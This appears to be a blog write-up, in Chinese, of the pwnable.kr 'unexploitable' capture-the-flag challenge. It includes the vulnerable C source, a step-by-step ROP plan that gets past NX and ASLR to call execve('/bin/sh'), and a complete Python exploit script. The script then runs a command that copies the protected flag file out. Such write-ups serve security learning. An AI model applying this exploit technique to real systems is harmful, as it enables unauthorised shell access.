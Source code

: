 ```yaml
---
title: unexploitable
author: rk700
layout: post
redirect_from: /writeup/2014/11/14/unexploitable
tags:
  - exploit
  - pwnable.kr
---
```


这次是500分的rop

{% highlight c %}
#include <stdio.h>
void main(){
        printf("Not all the bugs are exploitable.\n");
        printf("Try to exploit this one and you will see.\n");
        printf("Or.. maybe you can prove otherwise :)\n");

        // exploit me
        int buf[4];
        read(0, buf, 1295);
}
{% endhighlight %}

溢出很明显。但单看C代码，信息量太小，必须看汇编。

由于开了NX和ASLR，只能ROP了。由于在`0x40056f`处有`syscall`，所以我的思路是执行`execve("/bin/sh",["/bin/sh",NULL],...)`

具体地，我跳了好几次

1. 溢出，返回再次`read`，而且把`rbp`设到可写的`0x601xxx`那里；
2. 由于`rbp`在`data`段，这次的`read`，可以确定所写东西的地址。我们把第3次用到的栈上的数据写到这里。由于上次的`rbp`可控，当执行完`read`到`leave;ret`时 ，我们让他跳到第3次`read`
3. 这次是将字符串`/bin/sh`和地址写到固定地址。这样就把`execve`的参数准备好了。这次结束后，返回到`0x4005f6`
4. 通过一系列`mov ...`，把各个寄存器的值设好。然后返回`0x4005e0`
5. 这里就通过设`rdx`等寄存器，`call qword [r12+rbx*8]`来执行最终的`execve`

大体思路就是这样。然后比较麻烦的是，我不知道怎么与他交互……pwntool用不了，python还是不熟……于是最后用的是将flag文件拷贝一份为可读的……

下面是代码

{% highlight python %}
#!/usr/bin/env python2

from struct import *
import subprocess
import time

sh = "/bin/sh\x00"
cmd = "install -m666 /home/unexploitable/flag /tmp/flag1\n"

data1 = 0x601100
data2 = 0x601200

payload1 = "A"*0x10
payload1 += pack("<Q", data1+0x10) #saved rbp
payload1 += pack("<Q", 0x40056a) #ret addr: ...; read

#data1
payload2 = "B"*0x10
payload2 += pack("<Q", data2+0x10) #saved rbp
payload2 += pack("<Q", 0x40056a) #ret addr: ...; read
payload2 += "B"*0x8
payload2 += pack("<Q", 0x4005f6)#ret addr: mov reg ...
payload2 += pack("<Q", 0x40056f) #0f05 syscall
payload2 += pack("<Q", 0)#rbx
payload2 += pack("<Q", 0)#rbp
payload2 += pack("<Q", data1+0x10+0x8+0x8+0x8+0x8)#r12
payload2 += pack("<Q", data2+0x10+0x8+0x8)#r13 -> edi -> '/bin/sh'
payload2 += pack("<Q", data2+0x10+0x8+0x8+len(sh))#r14 -> rsi -> argv
payload2 += pack("<Q", data2+0x10+0x8+0x8+len(sh))#r15 -> rdx -> envp
payload2 += pack("<Q", 0x4005e0) #ret addr: mov r13 edi; ...

#data2
payload3 = "C"*0x10
payload3 += pack("<Q", data1+0x20) #saved rbp
payload3 += pack("<Q", 0x400585)#ret addr: leave; ret
payload3 += sh
payload3 += pack("<Q", data2+0x10+0x8+0x8)
payload3 += pack("<Q", 0)
payload3 += "C"*(0x3b-0x10-0x8-0x8-len(sh)-0x8-0x8)


exe = subprocess.Popen(["/home/unexploitable/unexploitable"],stdin=subprocess.PIPE)
exe.stdin.write(payload1)
time.sleep(1)
exe.stdin.write(payload2)
time.sleep(1)
exe.stdin.write(payload3)
time.sleep(1)
print "======="
exe.stdin.write(cmd)
{% endhighlight %}
